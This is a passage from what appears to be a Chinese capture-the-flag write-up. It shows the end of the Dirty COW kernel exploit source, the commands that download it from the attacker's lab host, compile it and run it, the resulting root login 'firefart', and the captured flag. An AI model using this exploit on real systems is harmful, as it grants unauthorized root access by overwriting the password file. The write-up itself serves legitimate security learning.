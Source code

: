 ```c
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth, NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
         user.username, plaintext_pw);
  printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
         backup_filename, filename);
  return 0;
}
```

- 编译dirity

```
wget 192.168.100.143/dirty.c
gcc -pthread dirty.c -o exp -lcrypt
./exp 123.com
```

![image-20210926205459275](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109262054596.png)

- 得到root用户
  - firefart 
  - 123.com

![image-20210926151319375](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109261513560.png)

# flag

```
Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```

**文章部分参考[橘子女侠](https://blog.csdn.net/qq_38684504/article/details/90106915)**


